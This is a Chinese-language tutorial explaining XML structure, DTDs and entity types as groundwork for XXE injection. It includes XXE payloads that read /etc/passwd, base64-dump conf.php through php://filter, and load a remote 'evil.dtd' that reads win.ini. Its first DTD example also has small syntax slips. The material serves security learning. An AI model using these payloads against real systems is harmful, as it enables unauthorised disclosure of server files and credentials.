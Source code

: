 ## 一、什么是XML

XML用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型，是一种允许用户对自己的标记语言进行定义的源语言。XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。

## 二、XML文件的文档结构

XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。

```
<!--XML声明-->
<?xml version="1.0"?>
<!--文档类型定义-->
<!DOCTYPE note [  <!--定义此文档是 note 类型的文档-->
<!ELEMENT note (to,from,heading,body)>  <!--定义note元素有四个元素-->
<!ELEMENT to (#PCDATA)>     <!--定义to元素为”#PCDATA”类型-->
<!ELEMENT from (#PCDATA)>   <!--定义from元素为”#PCDATA”类型-->
<!ELEMENT head (#PCDATA)>   <!--定义head元素为”#PCDATA”类型-->
<!ELEMENT body (#PCDATA)>   <!--定义body元素为”#PCDATA”类型-->
]]]>
<!--文档元素-->
<note>
<to>Dave</to>
<from>Tom</from>
<head>Reminder</head>
<body>You are a good man</body>
</note>
```

## 三、DTD文档类型定义

XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。

### 1、内部声明DTD：

```
<!DOCTYPE 根元素 [元素声明]>
```

### 2、引用外部DTD：

```
<!DOCTYPE 根元素 SYSTEM "文件名">
```

### 3、内外部DTD文档结合：

```
<!DOCTYPE 根元素 SYSTEM "DTD文件路径" [定义内容]>
```

### 4、DTD中的一些重要的关键字：

- DOCTYPE（DTD的声明）
- ENTITY（实体的声明）
- SYSTEM、PUBLIC（外部资源申请）

## 四、实体类别介绍

实体主要分为一下四类

- 内置实体 (Built-in entities)
- 字符实体 (Character entities)
- 通用实体 (General entities)
- 参数实体 (Parameter entities)

参数实体用%实体名称申明，引用时也用%实体名称;

其余实体直接用实体名称申明，引用时用&实体名称。

参数实体只能在DTD中申明，DTD中引用；

其余实体只能在DTD中申明，可在xml文档中引用。

### 1、内部实体声明

```
<!ENTITY 实体名称 “实体的值”>
```

一个实体由三部分构成:&符号, 实体名称, 分号 (😉，这里&不论在GET还是在POST中都需要进行URL编码，因为是使用参数传入xml的，&符号会被认为是参数间的连接符号，示例：

```
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY xxe "Thinking">]>
<foo>&xxe;</foo>
```

### 2、外部实体声明

XML中对数据的引用称为实体，实体中有一类叫外部实体，用来引入外部资源，有SYSTEM和PUBLIC两个关键字，表示实体来自本地计算机还是公共计算机，外部实体的引用可以借助各种协议，比如如下的三种：

```
file:///path/to/file.ext
http://url
php://filter/read=convert.base64-encode/resource=conf.php
<!ENTITY 实体名称 SYSTEM “URI/URL”>
```

外部引用可支持http，file等协议，不同的语言支持的协议不同，但存在一些通用的协议，具体内容如下所示：

![image.png](http://secevery.oss-cn-beijing.aliyuncs.com/images/article/2021/8/2/1630574789569.png?x-oss-process=style/ImageWaterMark_V1.0)

示例：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
<!ELEMENT methodname ANY >
<!ENTITY xxe(实体引用名) SYSTEM "file:///etc/passwd"(实体内容) >]>
<methodcall>
<methodname>&xxe;</methodname>
</methodcall>
```

这种写法则调用了本地计算机的文件/etc/passwd，XML内容被解析后，文件内容便通过&xxe被存放在了methodname元素中，造成了敏感信息的泄露。

### 3、参数实体声明

```
<!ENTITY 实体名称 SYSTEM “URI/URL”>
```

示例：

```
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>
<foo>&evil;</foo>
```

外部evil.dtd中的内容：

```
<!ENTITY evil SYSTEM “file:///c:/windows/win.ini” >
```

### 4、引用公共实体

```
<!ENTITY 实体名称 PUBLIC "public_ID" "URI">
```